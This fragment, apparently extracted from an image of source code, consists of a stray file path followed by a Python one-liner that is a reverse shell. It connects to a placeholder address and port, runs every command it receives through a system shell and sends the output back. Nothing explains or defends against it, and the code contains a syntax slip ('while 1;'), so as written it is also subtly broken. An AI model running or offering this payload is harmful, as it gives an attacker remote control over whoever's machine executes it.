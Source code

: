 python -c "exec(\"import socket, subprocess;s = socket.socket() ; s.connect(('<IPADDR>',<PORT>))\n while 1; proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE); s.send(proc.stdout.read()+proc.stderr.read())\")"
